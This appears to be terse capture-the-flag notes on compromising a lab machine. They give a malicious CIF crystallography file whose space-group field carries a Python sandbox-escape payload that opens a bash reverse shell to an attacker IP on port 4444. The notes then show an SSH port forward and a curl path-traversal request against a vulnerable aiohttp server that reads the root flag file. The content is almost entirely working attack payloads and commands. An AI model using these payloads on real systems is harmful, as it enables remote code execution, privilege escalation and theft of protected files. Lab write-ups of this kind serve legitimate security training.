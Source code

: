 1.we upload payload:
vuln.cif
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().class.mro[1].getattribute ( *[().class.mro[1]]+["sub" + "classes"]) () if d.name == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.15.37/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

2.
after ssh -L 1234:localhost:8080 rosa@ip 
we use dirsearch and found assets dir
we also found vulnerable version of aiohttp and exploit this with LFI
![[Pasted image 20250125213930.png]]
curl --path-as-is http://localhost:1234/assets/../../../../root/root.txt